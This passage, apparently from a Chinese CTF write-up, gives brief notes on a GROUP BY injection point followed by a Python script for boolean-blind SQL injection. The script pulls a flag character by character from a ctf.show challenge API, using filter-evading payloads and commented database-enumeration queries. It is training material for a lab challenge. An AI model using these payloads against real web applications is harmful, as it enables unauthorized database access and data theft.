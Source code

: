 这个参数会自动在url后面接上?u=参数

这里需要再次强调， group by 后面只能加 字段名 或者字符串 就是 username 或者 'a' 这种形式

```cobol
import string
 
import requests
 
url = 'http://0ca46a1b-2f7b-4973-b643-661fd455831f.challenge.ctf.show/api/?u='
 
 
# payload = "select database()"
# payload = "select group_concat(table_name)from information_schema.tables where table_schema=database()"
# payload = "select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flagas'"
payload = "select group_concat(flagasabc)from ctfshow_flagas"
flag =''
 
def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n-1):
            num+="+true"
        return num
 
def createStrNum(c):
    str=''
    str += 'chr('+createNum(ord(c[0]))+')'
    for i in c[1:]:
        str +=',chr(' + createNum(ord(i)) + ')'
    return str
 
uuid = string.ascii_lowercase+string.digits+"_-,}{"
 
for i in range(1,50):
    for j in range(32,128):
        payload1 = f"if(ascii(substr(({payload}),{createNum(i)},true))>{createNum(j)},username,'a')"
        # print(payload1)
        params={
            'u':payload1
        }
        re = requests.get(url=url,params=params)
        # print(re.text)
        if r'{"id":"2","username":"user1","pass":"111"}' not in re.text:
            flag += chr(j)
            print(flag)
            # if j == '}':
            #     exit()
            break
```
